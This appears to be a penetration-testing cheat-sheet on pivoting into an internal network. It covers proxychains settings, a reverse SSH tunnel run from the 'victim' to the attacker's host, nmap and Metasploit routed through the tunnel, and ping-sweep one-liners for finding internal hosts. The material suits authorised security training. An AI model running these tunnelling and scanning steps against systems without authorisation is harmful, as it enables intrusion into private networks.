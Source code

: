 # Pivoting to an Internal Network with proxychains and SSH

Think of pivoting like: creating a tunnel for kali to wrap traffic within 
- This forces traffic from the kali machine thru the tunnel FIRST, thus allowing scanning the internal network from the victim machine
- traffic looks like it is coming from internal
- possible on any client with SSH client *OVER 7.6*

##*On attacker*

`sudo vim /etc/proxychains4.conf`
- Comment out `strict_chain`
- Uncomment `dynamic_chain`
- Comment out `proxy_dns`
- Uncomment `quiet_mode`
- Change the default at the bottom to: `socks5 127.0.0.1 <portUchoose>`
    - be sure this port is unique

Make sure ssh is listening -> `sudo systemctl start/status ssh.service`

##*On Victim*

`sudo ssh -N -f -R 127.0.0.1:<ipSetOnKali> user@attacker -p <differentPort>`
- you should see the regular prompts from SSH, after accepting the connection and typing the password...
- Check on attacker box `netstat -natp` you should see an open listener on 127.0.0.1<port>
- This port that is picked NEEDS to be forwarded on the router, preferably forwarding to port 22 on the host, that way we dont need to make ssh config changes

Now you can run nmap scans and even wrap tools like msfconsole in the proxy! No need to fumble around seeing if modules are even compatable with proxies.

Keep in mind, nmap *MUST* be run with: `-sT -Pn`. Without these the scan will fail as we only have access to L7 thru proxychains.

You can run a ping sweep from the victim box by: (thanks to Gadoof for these)

Windows `for /l %i in (1,1,254) do @ping -n 1 -w 100 192.168.0.%i | find "Reply"` 

Linux `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done `

Copy the Data to kali and now you have internal targets!


